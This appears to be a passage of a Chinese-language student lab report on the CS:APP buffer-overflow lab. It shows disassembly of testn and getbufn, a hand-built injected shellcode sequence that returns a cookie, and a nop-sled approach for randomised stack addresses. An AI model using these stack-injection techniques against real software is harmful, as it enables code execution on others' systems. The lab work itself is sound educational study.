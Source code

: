 \textbf{分析过程：}

\begin{lstlisting}
0000000000401220 <testn>:
    401220:	53                   	push   %rbx
    401221:	48 83 ec 10          	sub    $0x10,%rsp
    401225:	b8 00 00 00 00       	mov    $0x0,%eax
    40122a:	e8 54 ff ff ff       	callq  401183 <uniqueval>
    40122f:	89 44 24 0c          	mov    %eax,0xc(%rsp)
    401233:	b8 00 00 00 00       	mov    $0x0,%eax
    401238:	e8 ae 03 00 00       	callq  4015eb <getbufn>
    40123d:	89 c3                	mov    %eax,%ebx
00000000004015eb <getbufn>:
    4015eb:	48 81 ec 08 02 00 00 	sub    $0x208,%rsp
    4015f2:	48 89 e7             	mov    %rsp,%rdi
    4015f5:	e8 dd fa ff ff       	callq  4010d7 <Gets>
    4015fa:	b8 01 00 00 00       	mov    $0x1,%eax
    4015ff:	48 81 c4 08 02 00 00 	add    $0x208,%rsp
    401606:	c3                   	retq
\end{lstlisting}
这一次testn调用n次getbufn，任务要求是getn返回cookie给testn:
构造攻击指令如下。
\begin{lstlisting}
0:	b8 1b fe f6 51       	mov    $0x51f6fe1b,%eax
5:	68 3d 12 40 00       	pushq  $0x40123d
a:	c3                   	retq
\end{lstlisting}

看一下每一次的写入字符串的位置是多少以确定将来我们要跳转到哪个位置。 我的分别是： 0x55683ad0 0x55683b20 0x55683b40 0x55683b00 0x55683a60

可以看到最高的地址是0x55683b40，之后我们跳转到这个位置，由于字符串有0x208(520)个字节，我们全部填入nop(0x90)，将我们注入的命令写入高位字节，使得跳转之后始终可以到达我们注入的命令。

\subsection{最终破解结果展示}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.7\linewidth]{figures/solution}
    \caption{破解结果}
    \label{fig:solution}
\end{figure}
